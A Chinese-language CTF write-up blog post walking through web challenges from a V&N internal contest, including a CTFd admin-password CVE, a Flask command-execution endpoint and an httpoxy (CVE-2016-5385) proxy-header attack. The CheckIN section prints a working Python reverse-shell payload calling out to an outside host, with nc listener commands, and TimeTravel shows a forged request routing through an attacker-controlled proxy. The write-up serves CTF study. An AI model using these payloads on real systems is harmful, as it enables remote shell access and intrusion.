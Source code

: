 ```yaml
---
title: v&n内部赛
date: 2020-02-29 00:06:11
updated: 2020-03-12 05:06:11
tags:
 - ctf
 - web
categories:
 - 刷题记录
---
```


## HappyCTFd

打开发现是一个CTFD的平台，搜索一下发现存在漏洞CVE-2020-7245，修改admin的密码

https://www.colabug.com/2020/0204/6940556/amp/

发现有一个题目名字叫做flagflag你在哪

<!--more-->

在file处有一个miaoflag文件打开就是flag

![](../pic/125.png)







## CheckIN

打开题目就是源码

```
from flask import Flask, request
import os
app = Flask(__name__)

flag_file = open("flag.txt", "r")
# flag = flag_file.read()
# flag_file.close()
#
# @app.route('/flag')
# def flag():
#     return flag
## want flag? naive!

# You will never find the thing you want:) I think
@app.route('/shell')
def shell():
    os.system("rm -f flag.txt")
    exec_cmd = request.args.get('c')
    os.system(exec_cmd)
    return "1"

@app.route('/')
def source():
    return open("app.py","r").read()

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

发现flag_file已经打开了flag.txt

可以执行系统命令，发现用bash弹shell用不了

使用DNS/OOB记录所有文件

DNS/OOB[参考文章](https://www.freebuf.com/articles/database/183997.html)

手残了一下把（ls -R/）所有进行了dns解析

使用VPSnc监听12345端口

nc -lvvp 12345

payload

```
?c=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ns.seye.gq",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

进去之后发现没有grep功能，

ls -alR /

列出所有文件搜索flag

![](../pic/126.png)





## EasySpringMVC

提供了源码，下载下来进行代码审计













## TimeTravel

打开就是源码

```
<?php
error_reporting(0);
require __DIR__ . '/vendor/autoload.php';

use GuzzleHttp\Client;

highlight_file(__FILE__);

if(isset($_GET['flag'])) {
    $client = new Client();
    $response = $client->get('http://127.0.0.1:5000/api/eligible');
    $content = $response->getBody();
    $data = json_decode($content, TRUE);
    if($data['success'] === true) {   //true返回值是数组,否则返回值为object
      echo system('/readflag');
    }
}

if(isset($_GET['file'])) {
    highlight_file($_GET['file']);
}

if(isset($_GET['phpinfo'])) {
    phpinfo();
}
```

查看phpinfo

是5.6.23版本的

发现没有禁用函数

| allow_url_fopen   | On   |
| ----------------- | ---- |
| allow_url_include | Off  |

存在任意文件读取

```
//autoload.php
require_once __DIR__ . '/composer/autoload_real.php';

return ComposerAutoloaderInit52ffee59545490028d211df73b41c57d::getLoader();
```

```
//autoload_real.php

```

```
//./vendor/composer/ClassLoader.php
```

~~看到guzzlehttp/guzzle有任意写文件漏洞https://www.anquanke.com/post/id/86452~~

查看composer.json

```
//composer.json
{
   "require": {
      "guzzlehttp/guzzle": "6.2.0"
   }
}
```



出题人[赵师傅博客](https://www.zhaoj.in/read-6407.html)也说了是改自https://github.com/vulhub/vulhub/tree/master/cgi/httpoxy



考点是cgi 的httpproxy漏洞（CVE-2016-5385） vulhub上有漏洞说明

> CGI的英文是（COMMON GATEWAY INTERFACE）公共网关接口，它的作用就是帮助服务器与语言通信，这里就是nginx和php进行通信，因为nginx和php的语言不通，因此需要一个沟通转换的过程，而CGI就是这个沟通的协议。
>
> nginx服务器在接受到浏览器传递过来的数据后，如果请求的是静态的页面或者图片等无需动态处理的则会直接根据请求的url找到其位置然后返回给浏览器，这里无需php参与，但是如果是一个动态的页面请求，这个时候nginx就必须与php通信，这个时候就会需要用到cgi协议，将请求数据转换成php能理解的信息，然后php根据这些信息返回的信息也要通过cgi协议转换成nginx可以理解的信息，最后nginx接到这些信息再返回给浏览器。
>
> 
>
>



访问请求时，添加一个proxy头部，浏览就会转发到 代理服务器，此时的访问就变成了代理服务器的127.0.0.1:500

```
$response = $client->get('http://127.0.0.1:5000/api/eligible');
```

在代理服务器中弄一个web服务器，api/eligible的内容为

```
{"success":True}
```

即可得到。

**注意**

由于在buuoj上无法访问外网，但是可以获取一台内网linux的控制权，搭建一台代理服务器，也有更简单的方式，

创建一个文件内容为例如 a.txt

```
HTTP/1.1 200 OK

{"success":true}
```

在linux上使用命令

```
nc -lvp 1234 < a.txt
```

然后发访问http://xxx/?flag，抓包添加一个proxy头部 地址为你获取控制权的linux ip地址

```
GET /?flag HTTP/1.1
Host: node3.buuoj.cn:25315
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0, no-cache
Proxy: http://174.0.246.216:1234/
Pragma: no-cache
```

即可获取flag

```
 
 ········
 
#DD0000">'phpinfo'</span><span style="color: #007700">]))&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">phpinfo</span><span style="color: #007700">();<br />}<br /></span>
</span>
</code>flag{7d7b2c9e-088c-4733-b70a-8ff3351479a7}
flag{7d7b2c9e-088c-4733-b70a-8ff3351479a7}
```

